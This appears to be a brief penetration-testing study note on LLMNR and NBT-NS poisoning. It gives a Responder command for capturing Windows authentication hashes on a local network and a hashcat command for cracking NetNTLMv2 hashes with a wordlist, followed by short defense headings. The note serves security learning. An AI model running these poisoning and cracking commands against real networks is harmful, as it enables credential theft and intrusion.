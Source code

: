 ### Responder
LLMNR & NetBios (NBT-NS) Poisoner

`responder -I wlp59s0 -rdw -v`

![[Pasted image 20221202133849.png]]

\n
### Hashcat
Crack hashes

`hashcat -m 5600 hash.txt rockyou.txt`
- where `-m` is the module (`hashcat --help | grep LLMNR`)

### Defense
Disable LLMNR
![[Pasted image 20221202134958.png]]

Require Access Control
![[Pasted image 20221202135024.png]]